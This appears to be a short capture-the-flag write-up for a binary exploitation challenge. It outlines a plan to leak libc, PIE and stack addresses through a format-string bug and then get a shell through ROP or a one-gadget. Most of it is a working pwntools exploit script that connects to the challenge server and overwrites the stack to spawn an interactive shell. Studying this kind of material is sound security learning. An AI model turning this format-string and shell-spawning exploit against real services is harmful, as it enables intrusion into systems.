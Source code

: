 ### Notes

---

If protections are enabled :

So the plan is this:

1. leak all the relevent informations we need (libc address, PIE base address, stack address)
2. write a ROP chain somewhere in the memory that’s writable
3. redirect the execution there with a stack pivot.

Once we have all the leaked addr, we’ll have to build a ROP chain to run system(“/bin/sh”).

1. find a one gadget

Normally here is what the rop chain should look like:

```py
pop rdi; ret;
“/bin/sh”
ret;
system
```

```py
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='amd64', log_level='error')
context.terminal = ['tmux', 'splitw', '-h']
exe = ELF("./shop-revenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = exe

#io = gdb.debug(exe.path, '')
# io = remote('127.0.0.1', 1337)
io = process('nc the-ingredient-shop-s-revenge.challs.brunnerne.xyz 32000'.split())
io.sendlineafter(b'exit\n', b'%42$p-%43$p-%45$p')
io.recvuntil(b'here is your choice\n')
stack_leak, exe_leak, libc_leak = map(lambda n : int(n, 16), io.recvline().strip().split(b'-'))
exe.address = exe_leak-0x1423
libc.address = libc_leak-0x2a1ca
payload = fmtstr_payload(8, writes={
    (stack_leak-8) : p64(libc.address+0xef52b),
    (stack_leak-16) : p64(exe.address+0x4578)
})
io.sendlineafter(b'exit\n', payload)
io.interactive()
```
